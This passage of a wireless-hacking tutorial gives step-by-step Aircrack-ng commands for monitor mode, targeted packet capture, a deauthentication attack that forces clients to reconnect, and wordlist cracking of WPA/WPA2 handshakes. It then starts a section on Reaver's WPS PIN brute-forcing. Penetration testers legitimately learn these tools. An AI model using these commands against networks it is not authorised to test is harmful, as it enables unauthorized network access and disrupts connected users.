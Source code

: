 **Key Features**:
- Capture packets and perform monitoring with `airodump-ng`.
- Inject packets into a network with `aireplay-ng`.
- Crack WEP and WPA/WPA2 keys with `aircrack-ng`.
- Decrypt captured packets and analyze them.

**Getting Started with Aircrack-ng**:

1. **Installing Aircrack-ng**:
   - On Kali Linux, Aircrack-ng is pre-installed. On other distributions:

   ```bash
   sudo apt update
   sudo apt install aircrack-ng
   ```

2. **Capturing Packets**:
   - Start by putting your wireless interface into monitor mode:

   ```bash
   sudo airmon-ng start wlan0
   ```

   - Use `airodump-ng` to capture packets:

   ```bash
   sudo airodump-ng wlan0mon
   ```

   - This will display nearby networks. To focus on a specific network, use:

   ```bash
   sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon
   ```

3. **Deauthentication Attack**:
   - Use `aireplay-ng` to deauthenticate clients from the network, forcing them to reconnect and capture the handshake:

   ```bash
   sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
   ```

4. **Cracking WPA/WPA2**:
   - Once you have captured a handshake, use `aircrack-ng` to crack the password:

   ```bash
   sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
   ```

### 2. **Reaver**

**Overview**:
Reaver is a tool designed to brute-force the WPS (Wi-Fi Protected Setup) PIN on wireless routers. Once the WPS PIN is cracked, it can be used to recover the WPA/WPA2 passphrase, allowing full access to the network. Reaver is effective against routers that have WPS enabled and are vulnerable to brute-force attacks.

**Key Features**:
- Brute-forces the WPS PIN on vulnerable routers.
- Can recover the WPA/WPA2 passphrase once the WPS PIN is obtained.
- Supports various attack modes and can be combined with other tools for enhanced effectiveness.
